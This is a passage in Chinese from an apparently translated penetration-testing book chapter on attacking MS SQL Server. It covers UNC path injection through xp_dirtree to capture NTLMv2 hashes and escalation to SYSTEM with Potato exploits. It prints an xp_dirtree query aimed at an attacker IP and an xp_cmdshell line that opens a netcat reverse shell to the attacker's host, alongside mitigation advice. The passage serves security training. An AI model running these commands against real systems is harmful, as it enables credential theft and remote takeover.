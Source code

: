 图 9.8 – 从 db_owner 到 sysadmin 的权限提升

为了防止配置错误，建议关闭**受信任**属性或将数据库所有者更改为低权限用户。

从以下部分开始，我们将逐渐从数据库级别转向操作系统级别。

## UNC 路径注入

**统一命名约定**（**UNC**）路径可以用于访问远程服务器上的文件。有两个存储过程支持 UNC 路径，并且可以通过公共服务器角色执行 – `xp_dirtree` 和 `xp_fileexist`。存储过程是将多个 SQL 语句组合在一起的逻辑单元。这样做的好处包括安全性、可重用性和性能。通过执行这两个存储过程之一，攻击者迫使 SQL Server 服务帐户访问并随后对受控资源进行身份验证。然后，NTLMv2 挑战将被捕获并转发，或由攻击者破解。通过使用 Metasploit 的 `auxiliary/admin/mssql/mssql_ntlm_stealer` 模块、SQLRecon 的 `smb` 模块，或 PowerUpSQL 中的 `Invoke-SQLUncPathInjection` 函数，可以自动化此攻击。它们本质上执行以下查询：

```
EXEC master.dbo.xp_dirtree '\\192.168.56.100\blah'
```

NTLMv2 挑战将被 Responder 捕获，如下图所示：

![图 9.9 – 已捕获 sql_svc 的 NTLMv2 挑战](img/B18964_09_09.jpg)

图 9.9 – 已捕获 sql_svc 的 NTLMv2 挑战

为了消除此攻击向量，建议撤销公共角色执行这些过程的权限。

还有另一种迫使身份验证的方式，但这次是作为安装了 SQL Server 的机器帐户[13]。在登录到 SQL Server Management Studio 后，攻击者从 XMLA 文件恢复一个数据库，但将其指向一个受控监听器作为备份文件位置。然后，攻击者将捕获 NTLMv2 挑战。

## 从服务帐户到 SYSTEM

通常，数据库服务帐户拥有 `SeImpersonatePrivilege` 权限。滥用此权限可以将我们的权限提升至 SYSTEM。根据目标操作系统的版本，提供了不同的漏洞利用工具。`JuicyPotato`[14] 适用于 Windows Server 2019 以下版本，而 RoguePotato、PrintSpoofer、SharpEfsPotato 和 GodPotato[15] 适用于更高版本。所有漏洞利用都在利用过程中使用不同的服务，但主要思路是创建管道，强制连接，并伪装成 SYSTEM 令牌。为了在服务上下文中执行进一步的命令，我们将在 HeidiSQL 中运行以下命令，这将作为 `sql_svc` 用户连接回我们的 Kali 主机：

```
EXEC master..xp_cmdshell 'cmd.exe /c C:\Users\Public\nc.exe -e cmd 192.168.56.100 443'
```

只需运行漏洞利用即可授予我们 SYSTEM 级别的权限：

